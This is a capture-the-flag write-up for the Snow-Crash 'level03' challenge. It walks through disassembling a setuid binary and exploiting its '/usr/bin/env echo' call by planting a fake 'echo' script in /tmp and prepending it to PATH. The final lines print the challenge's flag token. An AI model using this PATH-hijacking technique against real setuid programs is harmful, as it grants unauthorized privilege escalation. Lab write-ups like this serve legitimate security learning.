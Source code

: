# Level03

- We spawn with a `level03` file in root repository
- No extension so I try to execute it and it prints 'Exploit me'
- Then I try to *cat* the file but its unreadable
- Using 'file'
	> `level03: setuid setgid ELF 32-bit LSB executable`
- So second thing I did is to try and use `GDB` with asm layout to understand the code
- Didn't quite work on my machine so I did it on the snow-crash VM
- I still wanted to get a good look at the file so I used:
	> `objdump -M Intel -d level03`
	> The -M Intel to get a more understandable asm for me
- Code was still kinda bad so I did a little script to make it cleaner
	> `sh cutlines.sh`
- We can see many calls but one of them is a system one
- So when we look into it on `gdb`
	> `0x80485e0:       "/usr/bin/env echo Exploit me"`
- It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
- So we should be able to create a script called echo to get the flag for us !
	> `echo 'getflag' > /tmp/echo`
	> `export PATH=/tmp:$PATH`
	> `./level03`
- DOESN'T WORK ! WHY ? (Well I forgot a little something)
	> `chmod +x /tmp/echo`
	> `./level03`
	> `Check flag.Here is your token : qi0maab88jeaj46qoumi7maus`
